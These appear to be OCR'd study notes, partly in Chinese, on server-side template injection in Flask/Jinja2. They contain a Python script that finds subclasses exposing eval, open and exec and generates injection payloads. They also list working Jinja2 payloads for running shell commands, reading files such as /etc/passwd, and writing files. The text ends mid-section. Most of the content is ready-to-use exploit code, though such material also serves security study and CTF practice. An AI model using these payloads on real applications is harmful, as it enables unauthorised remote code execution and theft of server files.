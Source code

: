 ```

#!C:\Python3.7
# -*- coding:utf-8 -*-
​
from flask import Flask
​
from jinja2 import Template
​
# Some of special names
​
searchList = ['__init__', "__new__", '__del__', '__repr__', '__str__', '__bytes__', '__format__', '__lt__', '__le__', '__eq__', '__ne__', '__gt__', '__ge__', '__hash__', '__bool__', '__getattr__', '__getattribute__', '__setattr__', '__dir__', '__delattr__', '__get__', '__set__', '__delete__', '__call__', "__instancecheck__", '__subclasscheck__', '__len__', '__length_hint__', '__missing__','__getitem__', '__setitem__', '__iter__','__delitem__', '__reversed__', '__contains__', '__add__', '__sub__','__mul__']
​
neededFunction = ['eval', 'open', 'exec']
​
pay = int(input("Payload?[1|0]"))
# pay = int(input("http://127.0.0.1:5000/?[1|0]"))
​
for index, i in enumerate({}.__class__.__base__.__subclasses__()):
​for attr in searchList:
​if hasattr(i, attr):
​if eval('str(i.'+attr+')[1:9]') == 'function':
​for goal in neededFunction:
​if (eval('"'+goal+'" in i.'+attr+'.__globals__["__builtins__"].keys()')):
​if pay != 1:
​print(i.__name__,":", attr, goal)
​else:
​print("{% for c in [].__class__.__base__.__subclasses__() %}{% if c.__name__=='" + i.__name__ + "' %}{{ c." + attr + ".__globals__['__builtins__']." + goal + "(\"[evil]\") }}{% endif %}{% endfor %}")

## 5 payload

python3

#命令执行：
{% for c in [].__class__.__base__.__subclasses__() %}{% if c.__name__=='catch_warnings' %}{{ c.__init__.__globals__['__builtins__'].eval("__import__('os').popen('id').read()") }}{% endif %}{% endfor %}
#文件操作
{% for c in [].__class__.__base__.__subclasses__() %}{% if c.__name__=='catch_warnings' %}{{ c.__init__.__globals__['__builtins__'].open('filename', 'r').read() }}{% endif %}{% endfor %}

python2

#注入变量执行命令详见 http://www.freebuf.com/articles/web/98928.html
#读文件：
{{ ''.__class__.__mro__[2].__subclasses__()[40]('/etc/passwd').read() }}
#写文件：
{{ ''.__class__.__mro__[2].__subclasses__()[40]('/tmp/1').write("") }}

## 6案例

从0-1书中python-ssti

网址：https://blog.csdn.net/weixin_46703850/article/details/114038674?spm=1001.2014.3001.5501

### 1、显示子类

```